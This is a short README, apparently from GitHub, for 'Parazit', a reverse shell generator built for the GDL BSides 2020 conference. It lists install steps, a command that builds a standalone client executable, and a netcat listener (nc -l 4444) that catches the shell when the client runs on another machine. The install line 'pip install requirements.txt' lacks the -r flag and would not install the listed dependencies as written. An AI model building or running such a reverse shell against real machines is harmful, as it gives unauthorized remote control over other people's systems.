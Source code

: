 # Parazit

![parazit_log](/_assets/parazit_logo.jpg)

Reverse shell generator.

This project was created for the GDL BSides 2020 conference.

# Quickstart
## Install (Linux/OSX)

**Dependencies**
- Python 3.7+
- virtualenv
- netcat

For install open a terminal and type the following commands:

```sh
virtualenv -p python3 env/
source env/bin/activate
pip install requirements.txt
```

### Generating client
```sh
python app.py
```

You'll find the standalone executable inside the just created directory `dist` named as `client`.

Type in your machine:
```sh
nc -l 4444
```
Run the standalone executable in the client machine.
<br/>
If everything went fine, a banner with client machine system info will be displayed.    
